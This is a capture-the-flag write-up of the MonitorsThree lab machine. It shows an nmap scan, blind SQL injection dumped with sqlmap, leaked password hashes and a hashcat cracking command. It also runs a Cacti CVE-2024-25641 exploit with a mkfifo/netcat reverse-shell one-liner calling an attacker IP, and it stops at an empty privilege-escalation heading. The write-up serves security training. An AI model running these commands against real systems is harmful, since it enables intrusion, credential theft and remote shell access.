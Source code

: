 ```yaml
---
layout: post
title: "MonitorsThree"
date: 2024-10-04 10:04:00 +0000
categories: Writeup
---
```

MonitorsThree Writeup by <span style="color:yellow">Maniaa</span>.

# Scan

```text
Nmap scan report for 10.10.11.30
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10
| ssh-hostkey:
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

&nbsp;

# SQL Injection

There is SQL injection on the forgot password page on the monitorsthree site.:

![image](https://github.com/user-attachments/assets/a4fae5cc-f532-49bb-8228-d0d3068cd8f1)

Verified with the input '.

It looks to be blind.

I captured the request sent via burpsuite and put it into a txt file, then used sqlmap to dump the contents of the database:

![image](https://github.com/user-attachments/assets/406a8e21-219c-4911-a3a6-319dfd25b8ea)


This allowed me to acquire 4 hashes:

```
sqlmap -r post.txt --dump
```

```
dthompson@monitorsthree.htb:633b683cc128fe244b00f176c8a950f5
janderson@monitorsthree.htb:1e68b6eb86b45f6d92f8f292428f77ac
mwatson@monitorsthree.htb:c585d01f2eb3e6e1073e92023088a3dd
admin@monitorsthree.htb:31a181c8372e3afc59dab863430610e8
```

We can try cracking the admin@monitorsthree credential:
```bash
hashcat -m 0 -a 0 31a181c8372e3afc59dab863430610e8 /usr/share/wordlists/rockyou.txt
```
This will provide a password.

&nbsp;

# Cacti

I found a cacti subdomain:

![image](https://github.com/user-attachments/assets/027392ce-169d-4c77-88b8-8cf7f41c7102)

Add this to /etc/hosts.

We now have access to cacti with the admin credentials:

![image](https://github.com/user-attachments/assets/380380ca-0ca6-44a3-8da8-23b43181b2a3)


Cacti 1.2.26 suffers from rce via import template.

Cacti doesn't validate file names given through the package import feature, allowing it to overwrite files on the system(even outside the cacti base path, as path traversal isn't filtered).

More can be found <a href="https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88">here.</a>

I used an automated attack found <a href="https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26">here.</a>

```python
my-venv/bin/python3 CVE-2024-25641.py \
    --user admin \
    --pass greencacti2001 \
    --cmd "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 666 >/tmp/f" \
    http://cacti.monitorsthree.htb/cacti/
```
After setting up a listener, this provides access to www-data on the machine.


&nbsp;

# Privilege Escalation
